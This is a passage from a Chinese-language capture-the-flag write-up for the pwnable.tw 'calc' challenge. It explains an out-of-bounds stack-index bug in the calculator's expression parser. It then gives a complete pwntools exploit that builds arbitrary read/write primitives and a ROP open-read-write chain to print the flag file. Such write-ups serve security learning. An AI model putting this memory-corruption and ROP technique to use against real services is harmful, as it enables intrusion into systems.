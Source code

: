 ```c
if (0 < operand) {
        iVar1 = *result_stack;
        *result_stack = iVar1 + 1;
        result_stack[iVar1 + 1] = operand;
      }
```
假如我们输入`+1234+5678`，在第二个`+`处会把栈索引修改为`1234`;处理5678时便会执行`result_stack[1234+1] = 5678`；紧接着eval里又会执行`result_stack[1234] = result_stack[1234] + result_stack[1235]`。至此一切就很明了了
```py
from pwn import *
exe=ELF('./calc')
p=remote("chall.pwnable.tw",10100)
p.recvline()
START_OFF=361
bss=0x80eb400
def read_offset(offset):
    p.sendline(f"+{START_OFF+offset}")
    return int(p.recvline(keepends=False))
def write_offset(offset,value):
    original=read_offset(offset)
    if value>original:
        p.sendline(f"+{START_OFF+offset}+{value-original}")
    else:
        p.sendline(f"+{START_OFF+offset}-{original-value}")
    p.recvline()
filename="/home/calc/flag"
write_offset(0,exe.sym['read'])
write_offset(1,exe.sym['calc'])
write_offset(2,0)
write_offset(3,bss)
write_offset(4,len(filename))
p.sendline()
p.send(filename)
write_offset(0,exe.sym['open'])
write_offset(1,exe.sym['calc'])
write_offset(2,bss)
write_offset(3,0)
p.sendline()
write_offset(0,exe.sym['read'])
write_offset(1,exe.sym['calc'])
write_offset(2,3)
write_offset(3,bss+0x100)
write_offset(4,0x50)
p.sendline()
write_offset(0,exe.sym['write'])
write_offset(1,exe.sym['calc'])
write_offset(2,1)
write_offset(3,bss+0x100)
write_offset(4,0x50)
p.sendline()
p.interactive()
```
不过我没想到怎么getshell（binary是静态链接，而且没找到system和execve等函数），于是用我的古法orw
